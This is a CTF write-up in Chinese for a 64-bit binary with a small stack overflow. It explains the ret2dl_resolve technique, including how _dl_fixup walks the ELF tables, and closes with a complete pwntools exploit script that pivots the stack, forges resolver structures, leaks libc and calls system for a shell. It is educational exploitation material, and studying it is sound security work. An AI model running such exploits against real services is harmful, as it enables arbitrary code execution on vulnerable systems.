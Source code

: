 # Reading_test
```sh
[*] '/ctf/work/chall/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x3fe000)
    RUNPATH:  b'./'
```

本题目只有一个ret的溢出,
+ no pie
+ partial relro
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  __int64 buf; // [rsp+8h] [rbp-8h] BYREF

  buf = 24LL;
  read(0, &buf, 0x18uLL);
  return 0;
}
```
最开始自己写的时候是可以达成任意地址写,但是不知道下面的步骤,赛后知道原来是64位的`ret2dl_resolve`

首先可以看到64位程序的开头LOAD段里面有几个table, 分别是`Hash Table, String Table, Symbol Version Table, RELA Relocation Table, JUMPREL Relocation Table`

需要了解的结构体如下
```c
/* elf/link.h */
struct link_map
  {
    /* These first few members are part of the protocol with the debugger.
       This is the same format used in SVR4.  */

    ElfW(Addr) l_addr;		/* Difference between the address in the ELF
				   file and the addresses in memory.  */
    char *l_name;		/* Absolute file name object was found in.  */
    ElfW(Dyn) *l_ld;		/* Dynamic section of the shared object.  */
    struct link_map *l_next, *l_prev; /* Chain of loaded objects.  */
    ....
  };
```

```c
typedef struct
{
  Elf64_Word	st_name;		/* Symbol name (string tbl index) */
  unsigned char	st_info;		/* Symbol type and binding */
  unsigned char st_other;		/* Symbol visibility */
  Elf64_Section	st_shndx;		/* Section index */
  Elf64_Addr	st_value;		/* Symbol value */
  Elf64_Xword	st_size;		/* Symbol size */
} Elf64_Sym;


typedef struct
{
  Elf64_Addr	r_offset;		/* Address */
  Elf64_Xword	r_info;			/* Relocation type and symbol index */
  Elf64_Sxword	r_addend;		/* Addend */
} Elf64_Rela;


typedef struct
{
  Elf64_Sxword	d_tag;			/* Dynamic entry type */
  union
    {
      Elf64_Xword d_val;		/* Integer value */
      Elf64_Addr d_ptr;			/* Address value */
    } d_un;
} Elf64_Dyn;
```

# dl_runtime_resolve
这里他实际上最后调用的是`_dl_fixup`函数, 参数为`struct link_map *l`和`reloc_arg`

接下来的步骤就是先从`link_map`里面获取到`symtab`, `strtab`,`pltgot`
```c
...
  const ElfW(Sym) *const symtab
    = (const void *) D_PTR (l, l_info[DT_SYMTAB]);
  const char *strtab = (const void *) D_PTR (l, l_info[DT_STRTAB]);

  const uintptr_t pltgot = (uintptr_t) D_PTR (l, l_info[DT_PLTGOT]);

  const PLTREL *const reloc
    = (const void *) (D_PTR (l, l_info[DT_JMPREL])
		      + reloc_offset (pltgot, reloc_arg));
...
```
获取plt表中的表项下标,也就是我们plt表中push的数字,然后通过这个数字找到`JMPREL TABLE`的对应位置,将这个位置记录下来为reloc

而这个reloc的数据结构形式是`Elf64_rela`,如下
```c
typedef struct
{
  Elf64_Addr	r_offset;		/* Address */
  Elf64_Xword	r_info;			/* Relocation type and symbol index */
  Elf64_Sxword	r_addend;		/* Addend */
} Elf64_Rela;
```
其中`reloc->r_info`里面的是解析函数位于符号表`symtab`的下标,
```c
..
  const ElfW(Sym) *sym = &symtab[ELFW(R_SYM) (reloc->r_info)];
  const ElfW(Sym) *refsym = sym;
..
```
而这样就可以取出他的`symtab`的表项
然后获取重定位段的地址
```c
...
  void *const rel_addr = (void *)(l->l_addr + reloc->r_offset);
...
```
而这里我们可以自己构造这几个表的**表项**,而且这里需要我们填写其中的偏移部分即可

这里介绍一个`pwntools`工具,介绍一下使用方法

```python
# 解析elf文件, 然后传入的symbol代表我想要本次解析的内容, args表示希望传递的参数
dlresolve = Ret2dlresolvePayload(exe, symbol="write", args=["cat flag.txt"])
...
# 这里表示其寻找到的适合填入ret2dlresolve所构造的一系列元素地址,同时也是即将写入查询符号的地址
dlresolve.data_addr
# 表示在调用_dl_fixup中传递的第二个参数,同时也是JMPREL TABLE的表项index
dlresolve.reloc_index
# 这里就是所伪造的一系列内容
dlresolve.payload
# 这里是传递的第一个参数
dlresolve.real_args[0]
```

然后本题有一个考点那就是本题你无法控制rdi,这就导致在即使你写入了write的libc地址仍然只能达成`write(0, buf, size)`
但在打远程的时候,stdin并不是我们理解的终端屏幕,而是socat, 所以这样的write仍是可以进行回显
但在打本地希望通过时需要`io=process("./pwn", stdin = PTY)`才可通过

所以本题的解法就是使用ret2dl_resolve写入write的地址然后写泄漏libc

exp如下: 
```python

#!/usr/bin/env python3

from pwn import *
context(arch = 'amd64', os = 'linux', log_level = 'debug')
context.terminal = "kitty @launch --location=split --cwd=current".split()


def start(argv=[], *a, **kw):
    if args.LOCAL:
        argv = argv if argv else [exe.path]
        if args.GDB:
            return gdb.debug(argv, gdbscript=gdbscript, *a, **kw)
        return process(argv, stdin=PTY, *a, **kw)
    return remote(args.HOST or host, args.PORT or port, *a, **kw)


def safe_flat(*args, unsafe_chars=b"\n", **kwargs):
    p = flat(args, **kwargs)
    if any(c in unsafe_chars for c in p):
        raise ValueError("unsafe:", p)
    return p


gdbscript = """
b main
c
"""
host, port = args.HOST or "localhost", args.PORT or 55550
exe = context.binary = ELF(args.EXE or "./chall", False)
libc = ELF("./libc.so.6", False)

#io = start()
io = process("./chall")
write_rbp = exe.sym["main"] + 23
write_rbp_with_rdx = exe.sym["main"] + 16
pop_rbp = 0x40110D
leave_ret = 0x401153

dlresolve = Ret2dlresolvePayload(exe, symbol="write", args=["cat flag.txt"])
#print(hex(dlresolve))
log.info(f"{hex(dlresolve.data_addr) = }")
# 获取plt首地址
plt_init = exe.get_section_by_name(".plt").header.sh_addr
print(hex(plt_init))


io.send(safe_flat(0, exe.bss(0xF50 + 8), write_rbp))
pause()
io.send(safe_flat(0x1000, exe.bss(0xF50 + 8), write_rbp_with_rdx))
pause()

# Why not do it all at once? Because Indonesia's internet is so slow,
# I can't even send 2000 bytes at once.
rop1 = safe_flat(0, 0, pop_rbp, exe.sym["got.read"] + 8, write_rbp)

rop2 = safe_flat(
    # This will call dlresolve again for the read function.
    # Try to place it as close as possible to dlresolve.data_addr.
    # This is because _rtld_global_ro._dl_x86_cpu_features.xsave_state_size
    # can have different values on different CPUs.
    # See the _dl_runtime_resolve_xsavec function for more details.
    exe.sym["read"],
    plt_init,
    dlresolve.reloc_index,
    pop_rbp,
    exe.bss(0x900),
    write_rbp,
)
io.send(safe_flat(0, 0, pop_rbp, dlresolve.data_addr - len(rop1) - len(rop2) + 8, write_rbp))
pause()
io.send(rop1 + rop2 + dlresolve.payload)
pause()
io.send(safe_flat(exe.sym["read"] + 6, dlresolve.data_addr - len(rop2) - 8, leave_ret))
pause()
io.send(p8(libc.sym["read"] & 0xFF))
libc.address = u64(io.recv(8)) - libc.sym["read"]
log.info(f"{hex(libc.address) = }")

rop = ROP(libc)
rop.system(dlresolve.real_args[0])
rop.exit(0)

io.sendline(safe_flat(0, 0, rop.chain()))

io.interactive()
```


# 参考
[https://blog.imv1.me/2021/04/15/ret2dl_resolve/](https://blog.imv1.me/2021/04/15/ret2dl_resolve/)
